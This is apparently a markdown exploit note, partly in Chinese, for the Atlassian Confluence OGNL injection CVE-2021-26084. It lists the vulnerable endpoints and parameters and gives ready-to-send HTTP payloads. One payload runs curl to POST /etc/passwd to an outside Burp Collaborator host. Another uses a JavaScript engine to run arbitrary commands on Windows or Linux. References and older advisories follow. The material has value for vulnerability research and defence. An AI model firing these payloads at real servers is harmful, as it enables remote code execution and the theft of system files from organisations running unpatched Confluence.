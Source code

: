 ### url
```
URI Path                                   Vulnerable Parameters 
--------------------------------------------------------------------- 
/users/darkfeatures.action                 featureKey 
/users/enabledarkfeature.action            featureKey 
/users/disabledarkfeature.action           featureKey 
/login.action                              token 
/dologin.action                            token 
/signup.action                             token 
/dosignup.action                           token 
/pages/createpage-entervariables.action    queryString, linkCreation 
/pages/doenterpagevariables.action         queryString 
/pages/createpage.action                   queryString 
/pages/createpage-choosetemplate.action    queryString 
/pages/docreatepagefromtemplate.action     queryString 
/pages/docreatepage.action                 queryString 
/pages/createblogpost.action               queryString 
/pages/docreateblogpost.action.            queryString 
/pages/copypage.action                     queryString 
/pages/docopypage.action                   queryString 
/plugins/editor-loader/editor.action       syncRev
```
Ref: https://www.zerodayinitiative.com/blog/2021/9/21/cve-2021-26084-details-on-the-recently-exploited-atlassian-confluence-ognl-injection-bug
其中除两个重要的之外，其他都是需要登录的。


### Payload

```http
POST /pages/createpage-entervariables.action HTTP/1.1
Host: 127.0.0.1:8090
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 215

queryString=lalalala%5cu0027,(linkCreation)(0xd0ff90),%5cu0027lalalala&linkCreation=@java.lang.Runtime@getRuntime().exec('curl -X POST --data-binary @/etc/passwd x.burpcollaborator.net')
```

```http
queryString=aaaaaaaa\u0027%2b{Class.forName(\u0027javax.script.ScriptEngineManager\u0027).newInstance().getEngineByName(\u0027JavaScript\u0027).\u0065val(\u0027var+isWin+%3d+java.lang.System.getProperty(\u0022os.name\u0022).toLowerCase().contains(\u0022win\u0022)%3b+var+cmd+%3d+new+java.lang.String(\u0022ifconfig\u0022)%3bvar+p+%3d+new+java.lang.ProcessBuilder()%3b+if(isWin){p.command(\u0022cmd.exe\u0022,+\u0022/c\u0022,+cmd)%3b+}+else{p.command(\u0022bash\u0022,+\u0022-c\u0022,+cmd)%3b+}p.redirectErrorStream(true)%3b+var+process%3d+p.start()%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader(process.getInputStream())%3b+var+bufferedReader+%3d+new+java.io.BufferedReader(inputStreamReader)%3b+var+line+%3d+\u0022\u0022%3b+var+output+%3d+\u0022\u0022%3b+while((line+%3d+bufferedReader.readLine())+!%3d+null){output+%3d+output+%2b+line+%2b+java.lang.Character.toString(10)%3b+}\u0027)}%2b\u0027
```


### Demo
![](imgs/WechatIMG4182.png)
![](imgs/WechatIMG4183.png)
![](imgs/WechatIMG4189.png)
![](imgs/WechatIMG4208.png)
![](imgs/WechatIMG4214.png)
![](imgs/WechatIMG4216.png)
![](imgs/WechatIMG4225.png)




### Ref
 - https://github.com/projectdiscovery/nuclei-templates/commit/3a303530427f974dadc69471d3946ace0a776310
 - https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md
 - https://securitylab.github.com/research/bean-validation-RCE/
 - https://twitter.com/pwntester/status/1433888159083995136
 - https://twitter.com/iamnoooob/status/1431739398782025728
 - [[Atlassian Confluence CVE-2021–26084]::: The other side of bug report!](https://tradahacking.vn/atlassian-confluence-cve-2021-26084-the-other-side-of-bug-bounty-45ed19c814f6)
 - https://bugcrowd.com/disclosures/f76873aa-7acc-4f39-b94d-f066317e7c41/rce-on-confluence-data-center-via-ognl-injection
 - https://www.atlassian.com/blog/rebelutionary/misc/TSS-WebWork2.ppt

### 老漏洞
 - [<= 5.1.4 version OGNL double evaluation in atlassian-xwork](https://confluence.atlassian.com/doc/confluence-security-advisory-2013-08-05-389775711.html)
 - [<= 5.6 version OGNL Double Evaluation Vulnerability](https://confluence.atlassian.com/doc/confluence-security-advisory-2015-01-21-702712783.html)
 - [<= 5.5.1 version ClassLoader Manipulation vulnerability](https://confluence.atlassian.com/doc/confluence-security-advisory-2014-05-21-597557675.html)

